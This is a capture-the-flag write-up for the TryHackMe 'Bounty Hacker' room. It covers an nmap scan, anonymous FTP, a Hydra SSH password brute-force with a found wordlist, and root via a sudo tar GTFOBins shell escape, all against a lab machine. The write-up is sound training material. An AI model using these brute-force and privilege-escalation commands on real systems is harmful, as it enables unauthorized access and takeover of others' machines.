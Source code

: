 ```yaml
---

title: Bounty Hunter
date: 2020-08-03 04:00:00 +5:30
description: The Following Post is writeup of bountyhacker room of tryhackme # Add post description (optional)
tags: [tryhackme, ctf, gtfobins, ftp] # add tag
---
```


## Description:

The Following Post is writeup of Bounty Hunter room of tryhackme <https://tryhackme.com/room/cowboyhacker>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Easy
|Creator | Sevuhl

## Summary:

  PortScan will give you 3 open ports 21,22 and 80. We got anoymous
  ftp server after login we will get a username and a passlist.
  bruteforce it using hydra and we will get user then sudo -l and GTFObins

## Walkthrough:

### Enumeration
Lets start with nmap scan

```terminal
$ nmap -sC -sV 10.10.87.183
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.28 seconds

```
#### Port 21

Start our enum with port 21
So we can see anonyomous listing is allowed

```terminal
$ ftp 10.10.87.183

-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```

#### Hydra
so from this files we can see user lin and let's assume the locks.txt is passlist
and bruteforce ssh using hydra

```terminal
└──╼ $hydra -l lin -P locks.txt ssh://10.10.87.183
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 02:15:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.87.183:22/
[22][ssh] host: 10.10.87.183   login: lin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 02:15:10
```

Let's check whether lin have sudo privs or not

#### PrivEsc
```terminal
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Here we go so let's try GTFObins


```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted
